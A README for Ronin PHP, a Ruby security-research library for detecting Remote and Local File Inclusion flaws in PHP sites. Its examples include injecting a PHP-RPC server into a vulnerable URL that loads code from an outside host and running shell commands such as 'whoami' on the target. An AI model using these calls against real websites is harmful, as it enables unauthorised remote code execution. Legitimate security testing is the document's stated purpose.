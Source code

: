 # Ronin PHP

* [ronin.rubyforge.org/docs/ronin-php](http://ronin.rubyforge.org/docs/ronin-php/)
* [github.com/ronin-ruby/ronin-php](http://github.com/ronin-ruby/ronin-php/)
* [github.com/ronin-ruby/ronin-php/issues](http://github.com/ronin-ruby/ronin-php/issues)
* [groups.google.com/group/ronin-ruby](http://groups.google.com/group/ronin-ruby)
* irc.freenode.net #ronin

## Description

Ronin PHP is a Ruby library for Ronin that provides support for PHP
related security tasks.

Ronin is a Ruby platform for exploit development and security research.
Ronin allows for the rapid development and distribution of code, exploits
or payloads over many common Source-Code-Management (SCM) systems.

### Ruby

Ronin's Ruby environment allows security researchers to leverage Ruby with
ease. The Ruby environment contains a multitude of convenience methods
for working with data in Ruby, a Ruby Object Database, a customized Ruby
Console and an extendable command-line interface.

### Extend

Ronin's more specialized features are provided by additional Ronin
libraries, which users can choose to install. These libraries can allow
one to write and run Exploits and Payloads, scan for PHP vulnerabilities,
perform Google Dorks  or run 3rd party scanners.

### Publish

Ronin allows users to publish and share code, exploits, payloads or other
data via Overlays. Overlays are directories of code and data that can be
hosted on any SVN, Hg, Git or Rsync server. Ronin makes it easy to create,
install or update Overlays.

## Features

* Provides tests for Location File Inclusion (LFI) and Remote File
  Inclusion (RFI) that are built into the URI::HTTP class.
* Allows for effortless finger-printing of a web-server using LFI.
* Provides a PHP-RPC client and server that are designed to work in hostile
  environments.
* Provides an AJAX PHP-RPC Console.

## Synopsis

Start the Ronin console with Ronin PHP preloaded:

    $ ronin-php

## Examples

Test for Remote File Inclusion (RFI):

    require 'ronin/php/rfi'

    url = URI('http://www.example.com/page.php?lang=en')
    url.has_rfi?
    # => true

Get the first viable RFI vulnerability:

    url.first_rfi
    # => #<Ronin::PHP::RFI: ...>

Scan a URL for RFI vulnerabilities:

    url.rfi_scan
    # => [#<Ronin::PHP::RFI: ...>, ...]

Inject a PHP-RPC Server into a RFI vulnerable URL:

    require 'ronin/rpc/php'

    client = url.rfi.rpc
    client.exec('whoami')
    # => "www-data"

Get a direct URL to the AJAX interface of the PHP-RPC Server:

    client.url
    # => "http://www.example.com/page.php?en=http://ronin.rubyforge.org/static/ronin/php/rpc/server.min.php?"

Test for Local File Inclusion (LFI):

    require 'ronin/php/lfi'

    url = URI('http://www.example.com/site.php?page=home')
    url.has_lfi?
    # => true

Get the first viable LFI vulnerability:

    url.first_lfi
    # => #<Ronin::PHP::LFI: ...>

Scan a URL for LFI vulnerabilities:

    url.lfi_scan
    # => [#<Ronin::PHP::LFI: ...>, ...]

## Requirements

* cssmin >= 1.0.2
* jsmin >= 1.0.1
* [ronin](http://ronin.rubyforge.org/) >= 0.4.0
* [ronin-gen](http://ronin.rubyforge.org/) >= 0.3.0
* [ronin-web](http://ronin.rubyforge.org/web/) >= 0.2.2
* [ronin-exploits](http://ronin.rubyforge.org/exploits/) >= 0.3.2

## Install

    $ sudo gem install ronin-php

## License

Ronin PHP - A Ruby library for Ronin that provides support for PHP
related security tasks.

Copyright (c) 2007-2010 Hal Brodigan (postmodern.mod3 at gmail.com)

This program is free software; you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation; either version 2 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program; if not, write to the Free Software
Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
